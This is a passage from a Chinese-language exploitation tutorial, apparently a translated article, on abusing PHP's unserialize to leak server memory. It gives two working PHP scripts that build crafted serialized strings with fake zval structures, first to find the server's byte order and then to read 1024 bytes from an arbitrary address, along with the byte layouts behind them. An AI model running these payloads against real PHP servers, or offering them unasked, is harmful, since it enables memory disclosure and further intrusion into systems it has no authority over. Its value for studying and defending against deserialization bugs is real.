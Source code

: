     01 00 bc cc
    

把上述的放在一起，就得到了“S”的值！那么如何通过上述的结构确定服务器的字节顺序呢？在服务器的响应中，如果返回0x100（256），就可以确定是小尾方式！如果返回的是65536，那么就是大尾方式！确定字节顺序的完整php代码如下：

```
<?php
 
$data='O:8:"stdClass":4:{';
$data.='s:3:"123";a:10:{i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:4;i:5;i:5;i:6;i:6;i:7;i:7;i:8;i:8;i:9;i:9;i:10;i:10;}';
$data.='s:3:"123";i:0;';
$data.='i:0;S:17:"\00\01\00\00AAAA\00\01\01\00\01\00\0B\BC\CC";';
$data.='i:1;r:12;}';
 
var_dump(serialize(unserialize($data)));
 
?>

```

source:[determineEndianness](https://gist.github.com/tmm08a/66810644f89f293a7b8b#file-determineendianness)

程序响应如下：

![enter image description here](http://drops.javaweb.org/uploads/images/aedbfe5b7cf24bfe4f9e0a04e9532ce8c8e17141.jpg)

很好！现在我们已经能够确定服务器的字节顺序了！当然，我们真正想要的仍然是泄露任意数据。让我们接着往下走，既然已经能够泄露出我们所提供的数据了，那么是不是有可能泄露出任意地址的数据呢？

0x02 任意地址数据泄露
=====

本篇文章并未就此结束，因而我们的答案当然是肯定的！不过，这次我们需要的不再是整型的zval结构，而是字符串型zval数据结构，结构如下：

*   设置指向字符串数据的指针
    
    00 80 04 08
    
*   设置我们想要获得的字符串长度（1024）
    
    00 04 00 00
    
*   设置引用计数为非零
    
    00 01 01 00
    
*   最后，设置数据类型为string型（06），其余字节设为垃圾数
    
    06 00 0b bc
    

我们的新脚本如下所示：

```
<?php
 
$data='O:8:"stdClass":4:{';
$data.='s:3:"123";a:10:{i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:4;i:5;i:5;i:6;i:6;i:7;i:7;i:8;i:8;i:9;i:9;i:10;i:10;}';
$data.='s:3:"123";i:0;';
$data.='i:0;S:16:"\00\80\04\08\00\04\00\00\00\01\01\00\06\00\0B\BC";';
$data.='i:1;r:12;}';
 
var_dump(serialize(unserialize($data)));
 
?>

```
